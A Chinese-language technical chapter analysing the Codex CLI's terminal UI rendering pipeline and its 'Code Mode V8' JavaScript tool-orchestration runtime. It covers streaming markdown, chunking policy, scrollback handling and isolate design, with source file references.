






# 第 22 章 — TUI 渲染管线与 Code Mode V8（终端体验与 JavaScript 编排执行的双轨）

## 引言

如果说 `codex-core` 解决"模型回合驱动"，`app-server` 解决"协议契约"，那 Codex 真正决定"开发者每天打开终端时第一眼看到什么"的，是 `codex-rs/tui` 这一组接近三万行的 Rust 代码——它把 Ratatui+Crossterm 的同步 widget 模型，硬塞进一个流式 markdown、双向 RPC、可被 ^Z 挂起、可在 alt-screen 与 inline 之间切换、还能内嵌图片预览的终端进程里。与此同时，在工具层，`codex-rs/code-mode` 引入了一个完全独立的方向：把一组离散的 MCP/原生工具，"折叠"成单个名为 `exec` 的 JavaScript 工具，由模型直接写 V8 isolate 里跑的 async ES module 来编排——这就是社区俗称的 "Code Mode V8"。本章把 TUI 渲染管线（输入侧的 chat composer、流式区的 streaming controller、终端侧的 insert_history+draw 循环）与 Code Mode V8（service+runtime+description 三件套）放在一起，是因为它们在 Codex 里承担同一类工程难题：**如何把异步、不确定、可中断的"事件流"翻译成对人或对模型都可读、可控的"可视区"**。前者是给人看，后者是给模型读。

---

## 一、全网调研补充（社区共识、争议与盲区）

本章按"全网调研 → 七维分析 → 小结"展开。每一节都尽量先给事实（路径 + 行号 + 关键字段），再给判断。涉及到外部产品（Claude Code、Aider、Goose、Continue、Cloudflare Codemode）的部分，因为缺乏直接源码访问，全部采用"据公开博客 / 据社区分析"等审慎口径，并标注信息来源。

### 1.1 社区共识

围绕 Codex 的终端体验与 Code Mode，2025–2026 年社区已经形成下面几条相对低争议的共识。

1. **TUI 用 Ratatui + Crossterm，不是 Ink/React 路线**。OpenAI 官方架构页（[Codex CLI TUI Architecture](https://openai-codex.mintlify.app/architecture/tui)）明确写出 Ratatui 0.29.0 + Crossterm + 自维护补丁（color query support）这套技术栈，这跟 Claude Code 选择 Ink/Yoga/React 19 走完全不同的路。
2. **流式 markdown 是"newline-gated"的**。这一点早在 [PR #1920](https://github.com/openai/codex/pull/1920) 就由 OpenAI 工程师本人写在 PR 描述里：*"We wait until we have an entire newline, then format it with markdown and stream in to the UI. This reduces time to first token but is the right thing to do with our current rendering model IMO."* 社区把这条理解为"流式做到 line-level 而不是 char-level，是为了让 markdown 渲染稳态"。
3. **Code Mode 借鉴了 CodeAct 思想，但 V8 in-process 是 Codex 自己的工程选择**。Cloudflare 的 [Codemode](https://developers.cloudflare.com/agents/api-reference/codemode/) 文档把这条思路写得很直白：*"LLMs are better at writing code than making individual tool calls — they have seen millions of lines of real-world code but only contrived tool-calling examples."* Codex 把这套思想落到本地 Rust 二进制里、用 `rusty_v8`（即 deno 的 v8 binding）在自己进程内开 isolate，而不是像 Cloudflare 那样 spawn 一个 DynamicWorkerExecutor，这是一次显著的"少进程、低延迟"取向。
4. **Code Mode 必须配合 `wait` 工具**。`code-mode/src/description.rs` 第 35 行写得很清楚：*"Use `wait` only after `exec` returns `Script running with cell ID ...`"*。这套 `exec/wait/cell_id` 三件套已被官方 API 文档与第三方 LLM 工具规范同步引用——它不是"可选辅助"，而是 Code Mode 长时间运行的基础协议。
5. **`code_mode` 与 `code_mode_only` 是两个独立 feature**。在 `codex-rs/features/src/lib.rs:L748-L759` 里，两者都标为 `Stage::UnderDevelopment` 且 `default_enabled = false`——也就是说 2026-05 当下 Code Mode V8 仍在内测，不是默认行为，但代码已经完整入库。

### 1.2 主要争议

- **争议 A：流式 markdown 该 char-level 还是 line-level？** 大量第三方 review（[Streaming markdown PR review](https://github.com/openai/codex/pull/1920)）认为"newline-gated"是必然选择，因为 markdown 是块级语法（list、table、quote 都跨越多行）；但也有 HN 用户认为 line-level 等待会让"短回复看起来卡顿"——Codex 的答复是用 `AdaptiveChunkingPolicy` 的 catch-up 模式在 burst 时一次性 drain backlog 来兜底，并不是单纯 line-level 等待。
- **争议 B：Code Mode 真的比 JSON tool calling 省 token 吗？** Cloudflare 的官方说法是"是"，但社区有反方意见：让模型多写一层 JavaScript boilerplate（`const r = await tools.foo(...)`），在很多简单场景反而比 JSON tool call 长。Codex 自己的设计选择是**让 `exec` 与原有 JSON tool calls 共存**——`Feature::CodeMode` 是一个 augment（叠加），`Feature::CodeModeOnly` 才是替换。社区普遍把这套"渐进式开启"理解为对争议的工程妥协。
- **争议 C：in-process V8 是否会拖垮 Codex 启动？** 一些 [HN 讨论](https://news.ycombinator.com/item?id=46738288)担心：把 v8 platform、ICU data 都嵌进二进制，对启动延迟、二进制大小都不友好。Codex 的处理是 `OnceLock` 初始化（`code-mode/src/runtime/mod.rs:L267-L281`），只有第一次 `exec` 才会触发 `v8::V8::initialize`，对纯 chat 用户零开销。
- **争议 D：终端里的"流式区"为什么不直接走 ratatui 自己的 List/Paragraph widget？** 因为 Codex 把"已完成的历史"放进**真正的终端 scrollback**（用 ANSI 转义直接 `\x1bM` 反向滚动、`SetScrollRegion` 设滚动区域）——这是 `insert_history.rs:L105-L120` 那一段做的事。这种"把 ratatui 当成 viewport 而不是整屏 framework"的思路，与 Claude Code 用 ConcurrentRoot/React 19 全屏 alt-screen 双缓冲的思路完全相反。社区里相当一部分 ratatui 用户从未见过这种用法。

还有一类容易被混为一谈的争议：**Code Mode 是不是要替代 MCP？** 这个问题在 HN 与 Twitter 上出现过几轮。Codex 自己给的答案藏在 `description.rs` 第 271 行：所有 MCP 工具会按 namespace 分段塞进 exec 描述（`## namespace_name`），再以 `tools.mcp__namespace__toolname(...)` 形式暴露给模型。也就是说 **Code Mode 不替代 MCP，它把 MCP 工具"包"进 JavaScript 命名空间**。这跟 Cloudflare Codemode 把所有 tool 平铺成 `codemode.*` 的设计完全相反——Codex 显然在乎"namespace 边界"，目的可能是让模型能按需 filter 工具，避免单一 namespace 被噪声淹没。

### 1.3 长期被忽略的盲区

- **`MarkdownStreamCollector` 不是简单 buffer，而是和 `cwd` 强绑定的渲染器**。它在构造时就 snapshot 了 session cwd（`tui/src/streaming/mod.rs:L42-L48`），目的是让"本地文件 link 在整个流的 lifecycle 内显示稳定"。社区文章普遍只描述"buffer→渲染"，没人提这个 cwd 锁。
- **`TableHoldbackScanner` 是流式 markdown 的"非显性主角"**。表格不可能增量渲染（增加一行可能重新计算每列宽度），Codex 用一个 incremental scanner 检测 "pipe-table 头 + 分隔行" pattern，把整个 table 从 stable 区强制压回 mutable tail（`streaming/table_holdback.rs:L23-L57`）。一旦 finalize，才把整张表落进 scrollback。这种"局部 holdback"在 ratatui 社区几乎没人写过。
- **`AdaptiveChunkingPolicy` 的两档 hysteresis 是有显式 `EXIT_HOLD=250ms` 的**。`streaming/chunking.rs:L82-L116` 给出一组明确常量（`ENTER_QUEUE_DEPTH=8`、`ENTER_OLDEST_AGE=120ms`、`EXIT=2/40ms`、`SEVERE=64/300ms`、`REENTER_HOLD=250ms`），这是个完整的"两档变速箱"工程，比社区常见的 "buffer 满就 flush" 复杂得多。
- **Code Mode 的 isolate 是一个独立 OS 线程**。`code-mode/src/runtime/mod.rs:L219-L229` 用 `thread::spawn` 启动 v8 isolate；`isolate.thread_safe_handle()` 通过 `sync_channel(1)` 单向送回主线程；主线程通过 `IsolateHandle::terminate_execution` 强制打断（`mod.rs:L489`，测试用例验证）。这跟 deno-runtime 把 v8 包进 tokio reactor 的常见做法不同——Codex 这里是个 std::thread 而不是 tokio task，避免阻塞 reactor。
- **`pending_mode = PauseUntilResumed` 是给 nested tool-call 流水线设计的特殊执行模式**。`code-mode/src/service.rs:L109-L125` 提供 `execute_to_pending`，让 isolate 在 nested tool call 排队之后"原地暂停"，等 host 把同一组 tool_call ids 全部走完 transport 再 Resume。这是普通 V8 sandbox 不会有的语义——盲区程度很高。
- **Chat composer 同时承担五类 popup**：slash command / file search / skill mention / app mention（mentions_v2）/ shortcut overlay。一个 1.09 万行的文件（`bottom_pane/chat_composer.rs:1-10929`）把 InputResult 状态机（`L276-L300`）、popup 路由（`L1638-L1648`）、paste burst（`paste_burst.rs`）、image attachment、history search、vim normal/insert 全部塞在一起，几乎没人在第三方文章里完整描述过。
- **`HistoryLineWrapPolicy::PreWrap` 对 URL 行有特例**：`insert_history.rs:L82-L97` 显式判断"line_contains_url_like && !mixed"，不做硬换行，让现代终端 OSC 8 之类的 hyperlink 仍然可点击。这是个非常细的可点击链接保护机制。
- **`Tui::draw` 用了 crossterm 的 `SynchronizedUpdate`**（`tui.rs:L17`、`L834`），底层映射到 DEC mode 2026。也就是说一帧绘制在终端层是原子的——只要终端支持 mode 2026，用户绝不会看到"画一半的帧"。但 Windows Terminal、macOS Terminal、iTerm2、Alacritty 对这个 mode 的支持度不一，社区里看到的"撕裂"问题十有八九是终端层不支持 2026，而不是 Codex 实现的 bug。
- **`Tui::pending_history_lines` 是个延迟队列**（`tui.rs:L509-L513`）。`insert_history_lines` 并不立即写终端，而是先压进 pending_history_lines；只有下一次 `draw()` 里的 `flush_pending_history_lines`（`tui.rs:L800-L814`）才一次性 flush。这避免了"在帧绘制中途写 escape sequence"造成的视觉错位，但代价是历史行的 latency 多出一个 frame interval（约 16ms）。
- **`code-mode/src/runtime/value.rs` 仅 224 行就承担 v8↔JSON 的所有桥接**：`json_to_v8` 处理 Object/Array/string/number/bool/null，`v8_value_to_json` 反向；`serialize_output_text` 用 `JSON.stringify` 兜底非字符串值（`description.rs` 第 26 行明确这条 contract）。这套桥接没有处理 BigInt、Symbol、循环引用——一旦模型在脚本里 store 一个带循环的对象，会直接拿到 "failed to serialize tool response" 类的错误。
- **`commit_tick.rs` 同时编排两种 controller**：`StreamController`（普通模型回复）和 `PlanStreamController`（proposed plan，用 `proposed_plan_style` 渲染）。两个 controller 共享 `AdaptiveChunkingPolicy`，意味着 plan 的队列深度会影响 main stream 的 chunking 决策——这种"共享调速器"在多 reader 的 LLM agent UI 里是个有意思的设计选择。
- **`CommitTickScope::CatchUpOnly`** 是个细节但重要的 flag（`commit_tick.rs:L31-L46`）。它让主循环可以"只在 catch-up 模式下 commit"，配合 frame requester 的去抖，能在 burst 时段无视 frame 限速立即清队列；smooth 模式则严格按 frame interval 走。这条机制对响应性的影响超过单纯调阈值。

---

## 二、七维分析

### 2.1 本质是什么——双轨"事件流→可视区"翻译层

把 `codex-rs/tui` 与 `codex-rs/code-mode` 放在同一个抽象层来看，它们在做同一件事：**把异步的、增量的、可中断的事件流，翻译成给"读者"消费的稳态视图**。区别只是读者不同：

- TUI 的读者是人，所以输出是 terminal 的字符栅格、附带 ANSI 转义、必须 60 fps 不撕裂、必须能往 scrollback 沉淀；
- Code Mode 的读者是模型，所以输出是 `FunctionCallOutputContentItem` 数组（`code-mode/src/response.rs:L13-L24`），它会被 stuff 回下一轮 prompt，必须满足 token 预算、必须保留 cell_id 让模型用 `wait` 续跑。

两者的对称性，可以用一张顶层图描述。

<div style="background: #ffffff !important; background-color: #ffffff !important; border: 1px solid #d0d7de; border-radius: 8px; padding: 16px; margin: 16px 0; overflow-x: auto;" bgcolor="#ffffff">



</div>

注意左右两轨在底部是**共享同一个事件总线**的：Code Mode 在 V8 里 `text("...")` 调用最终也会走 `RuntimeEvent::ContentItem`（`code-mode/src/runtime/mod.rs:L167-L186`），然后由 `CodeModeService` 包成 `RuntimeResponse` 给 turn 驱动用，再由 turn 驱动把模型回复事件发到 AppEventSender，最终落到 TUI 的流式区。两轨在事件源处再次重合。

这不是巧合：Codex 的设计哲学之一是"协议优先于实现"，因此 Code Mode 的输出和模型自己写的回复，在事件层是**同一种东西**（都是 `FunctionCallOutputContentItem` / `Item`）。TUI 只需要懂一种格式，就同时支持了"模型直接说话"与"模型让 JS 替它说话"两种交互。

更进一步看，**Codex 把两类异步流统一为同一个 mental model**：

- 模型流（model stream）：char-level delta，需要 newline-gating 才能稳定 markdown 渲染；
- 工具流（tool stream）：tool_call_id 维度的 nested call，需要 cell_id 维度的 yield/wait 才能避免阻塞 turn。

它们的共同点是**都需要"切片→暂存→提交"的三段式**：char 切到 line、tool 切到 yield、line/yield 暂存进队列、commit_tick/yield_timer 触发提交。这条共同结构是为什么本章把 TUI 渲染与 Code Mode 放在同一章——它们不是按文件目录意义上的"并列模块"，而是按抽象意义上的"对偶"。理解了这层对偶，再去看具体实现细节就不会被"为什么 Codex 把流式做得这么复杂、把工具做得这么复杂"困惑。

### 2.2 核心问题和痛点

把双轨的核心痛点放在一起，可以更清楚地看出两侧解决的工程难题在镜像。

**TUI 侧**（用户读者）：

1. **流式 token 与 markdown 块语法的张力**：模型每次吐 1–10 个 char，但 markdown table、code fence、list 都是块级结构。char-level 渲染会让用户看到 `|---` 一闪而过又重写为完整表格——这是肉眼可感的"撕裂"。
2. **viewport vs scrollback 二元**：终端的滚动是 native 的（按 PageUp 滚屏、滚轮、`tmux copy-mode` 等），但 ratatui 的 widget 都是绘制在固定 buffer 上。如果整屏走 alt-screen，scrollback 就丢了；如果只走 inline，长会话又会被自身覆盖。
3. **输入侧的状态爆炸**：单个 `Enter` 在不同状态下含义不同——slash popup 选中？file search 高亮？大块粘贴还在缓冲？图片 attach 待发？历史搜索预览中？这些都得在一次 keypress 里裁决。
4. **可中断与可重入**：^Z 挂起、^C 取消、退出 alt-screen 时 stdin/stderr 必须复位，否则下一个用户命令就显示不出来。

**Code Mode 侧**（模型读者）：

1. **多步工具编排的回合损耗**：标准 tool calling 一次只跑一个工具；要做 "for each result in tools.search(): tools.read(result.path)" 这种循环就要 N 次回合，N 次 token 上下文。
2. **JS 执行环境的不可控**：模型写的代码本质上是不可信代码，不能有 fs、network、`console` 这种副作用，也不能 spawn 一个 5 分钟 CPU 跑死整个进程。
3. **长任务的 yield/wait 协议**：脚本可能 sleep 60s，也可能在 nested tool call 上等结果，turn driver 既不能死等，也不能立刻 timeout。
4. **多 cell 共享状态**：模型可能想"上一段脚本 store 一个值，下一段脚本 load 出来"，于是需要 session-level KV，但又不能是 process-level（不同 thread 隔离）。

两侧痛点的镜像很明显："流式的非阻塞产物" vs "可中断的可恢复脚本"——前者是给人看的"动态"，后者是给模型的"动态"。

把这些痛点再往下拆一层，可以看到几条**贯穿性的约束**：

- **可重入**：用户随时可能 ^C；turn driver 随时可能取消；网络随时可能断；这些都不能让 TUI 或 V8 留下垃圾状态。TUI 用 `Drop` + `restore`（`tui.rs:L84-L89`、`L277-L302`）保证终端模式总能复位；Code Mode 用 `CodeModeTurnWorker::Drop` 触发 `shutdown_tx` 关闭 worker（`service.rs:L321-L327`）。
- **可观测**：流式 controller 在每次 mode transition 都会 `tracing::trace!` 一条 transition log（`commit_tick.rs:L130-L140`），并且 `table_holdback.rs:L109-L114` 在每次扫描后 trace 出耗时；Code Mode 在 `value_to_error_text` 等关键路径都保留 error context。这是 Codex 在大型仓库里"调试至上"哲学的体现。
- **可演化**：feature 系统（`features/src/lib.rs`）把 Code Mode、`code_mode_only`、`terminal_resize_reflow` 都标成可独立开关的 `FeatureSpec`，让团队可以 partial roll-out 新机制而不动主干。这对 Codex 这种"多人协作 + 高频发布"的开源工程是结构性必需。

这三条约束几乎决定了下文所有具体设计为什么这样做：不是因为更聪明，而是因为可重入、可观测、可演化的硬约束把方案空间收得很窄。

### 2.3 解决思路与方案

#### TUI 渲染管线的三层架构

`codex-rs/tui` 的渲染分三层：**事件层（crossterm + AppEvent）→ widget 层（chat_widget / bottom_pane / streaming）→ 终端层（Tui::draw + insert_history）**。下面这张图给出主要数据流。

<div style="background: #ffffff !important; background-color: #ffffff !important; border: 1px solid #d0d7de; border-radius: 8px; padding: 16px; margin: 16px 0; overflow-x: auto;" bgcolor="#ffffff">



</div>

几个关键设计决策：

1. **`AppEventSender` 是单向 mpsc**（`app.rs:L709-L710`）。Crossterm/AppServer/Composer 全部往里灌事件，主循环 `tokio::select!` 拉出来分派。这是 Codex TUI 的"事件单源真理"。
2. **`Tui::draw` 用 `stdout().sync_update` 包住一次完整更新**（`tui.rs:L834`），底层走 crossterm 的 begin/end synchronized update（DEC mode 2026），让终端在一帧内完成绘制，避免撕裂。
3. **`insert_history_lines` 走 ANSI 滚屏，不走 ratatui buffer**（`insert_history.rs:L110-L120`）：用 `SetScrollRegion` + `MoveTo` + `Print("\x1bM")`（反向 index）把 inline viewport 上方的空间挤出来，再把已完成的历史行写入——这些行写完就归终端 scrollback 管理，Codex 不再持有它们。

#### 流式渲染：newline-gated + 自适应 chunking + table holdback

流式区是 TUI 里最复杂的一段。它要在三个尺度同时做决策：

- **字符尺度**：什么时候把累积的 char buffer 提交给 markdown 渲染器？答：见到 `\n` 才提交（`streaming/controller.rs:L127-L143`）。
- **行尺度**：哪些行进 stable（可落 scrollback），哪些行留 tail（mutable）？答：通常按 `emitted_stable_len ≤ enqueued_stable_len ≤ rendered_lines.len()` 推进，但 table 强制压回 tail（`controller.rs:L78-L90`）。
- **时间尺度**：每个 tick 是 drain 一行还是 drain N 行？答：`AdaptiveChunkingPolicy` 根据队列深度 + 最老入队时长决定，Smooth/CatchUp 双档（`chunking.rs:L156-L211`）。

下面这张时序图把"一段流式回复"从模型发出 delta 到最终落 scrollback 的完整链路拉直。

<div style="background: #ffffff !important; background-color: #ffffff !important; border: 1px solid #d0d7de; border-radius: 8px; padding: 16px; margin: 16px 0; overflow-x: auto;" bgcolor="#ffffff">



</div>

几个细节值得单独点出来。

**第一**，`MarkdownStreamCollector` 内部维护 `committed_line_count`，意味着每次 commit 都是**幂等可重放**的：同一段 raw_source 第二次走过 markdown 渲染器，输出必须等于第一次的延伸，否则 stable 区跟 tail 之间会出现"位移漂移"。这就是 `StreamCore::raw_source` 在注释里说的 "append-only until reset"（`controller.rs:L33-L34`）。

**第二**，holdback 不是简单 "tail 留 N 行"，而是按结构：

<div style="background: #ffffff !important; background-color: #ffffff !important; border: 1px solid #d0d7de; border-radius: 8px; padding: 16px; margin: 16px 0; overflow-x: auto;" bgcolor="#ffffff">



</div>

这张状态机就是 `TableHoldbackScanner` 的全部公开行为（`streaming/table_holdback.rs:L23-L57`）。它的关键是：**只往前扫一行**（"one-line lookbehind"），把 `previous_line` 的 `is_header` 标记与当前行的 `is_delimiter` 配对，一旦命中就把整个 table_start 锁住。如此简陋的状态机就能覆盖绝大多数生产场景，是个典型的 "够用即可" 工程。

这里有几个隐含的语义边界值得拎出来：

- `confirmed_table_start` 一旦设置，永远不会回退到 `pending_header` 或 `None`，直到 `reset()` 被调用。也就是说 **一个流里只要遇到一张表，从那张表开始的所有内容都进 mutable tail**——即使表后面跟着普通段落。这是为了避免"表格之后又出现 header 候选行时状态错乱"，是一种保守但安全的策略。
- `confirmed_table_start` 只用 source byte offset 而不用 line index 表示，原因是 markdown 渲染可能把一行折成多行（width-aware wrapping），所以 line index 会随 width 变化，而 byte offset 是源稳定的。
